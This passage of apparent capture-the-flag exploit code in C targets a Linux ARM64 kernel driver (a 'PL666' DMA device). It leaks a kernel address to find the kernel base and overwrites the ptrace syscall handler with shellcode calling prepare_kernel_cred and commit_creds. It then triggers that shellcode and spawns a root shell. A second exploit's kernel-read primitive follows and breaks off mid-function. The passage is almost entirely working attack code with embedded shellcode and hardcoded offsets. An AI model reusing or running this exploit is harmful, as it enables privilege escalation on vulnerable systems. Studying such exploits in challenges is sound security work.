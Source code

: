```c
    targ.arg = buf;
    pthread_create(&t, NULL, racer, &targ);
    uint64_t * kstack_leak = read_kernel(secfd, 0xffff800010003758, 16);
    printf("##\t%p:%p (%p)\n",0xffff800010003758, kstack_leak[0], kstack_leak[0] - 0x8b8d38);
    uint64_t kernel_base         = kstack_leak[0] - 0x8b8d38;
    uint64_t prepare_kernel_cred = kernel_base + 0x696a8;
    uint64_t commit_creds        = kernel_base + 0x693e0;
    uint64_t __arm64_sys_ptrace  = kernel_base + 0x49c88;

    uint64_t shellcode[0x200/8];
    char * sc = "\xfd\x7b\xbe\xa9\xe9\x00\x00\x58\x00\x00\x80\xd2\x20\x01\x3f\xd6\xc9\x00\x00\x58\x20\x01\x3f\xd6\xfd\x7b\xc2\xa8\xc0\x03\x5f\xd6\x42\x42\x42\x42\x42\x42\x42\x42\x43\x43\x43\x43\x43\x43\x43\x43";
    memcpy(shellcode, sc, 0x100);
    shellcode[4]  = prepare_kernel_cred;
    shellcode[5]  = commit_creds;
    
    printf("Write shellcode...\n");
    write_kernel(secfd, __arm64_sys_ptrace, shellcode, 0x200);
    printf("Executing...\n");
    ptrace(PTRACE_TRACEME, 0, NULL, NULL);

    system("/bin/sh");
    return 0;
}
```

## Part 2 Exploit
```c
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <pthread.h>
#include <sys/mman.h>
#include <stdio.h>
#include <sys/ptrace.h>

#define MAX_LLI 8
struct lli{
    uint64_t src;
    uint64_t dst;
    uint32_t size;
    uint32_t ctrl;
};
#define PL666_LLI_MORE 0x0001
#define PL666_LLI_READ 0x0002

struct lli * buf = NULL;
void * a   = NULL;

uint64_t read_kernel(int fd, uint64_t kaddr, uint64_t size) {
    memset(buf, 0, sizeof(struct lli) * 4);
    buf[0].src  = a;
    buf[0].size = 0x10;
    
    buf[1].src  = kaddr;
    buf[1].dst  = 0x100;
    buf[1].size = size;
	buf[1].ctrl = PL666_LLI_MORE;

    write(fd, buf, sizeof(struct lli) * 2);
    memset(a, 0x0, size);
```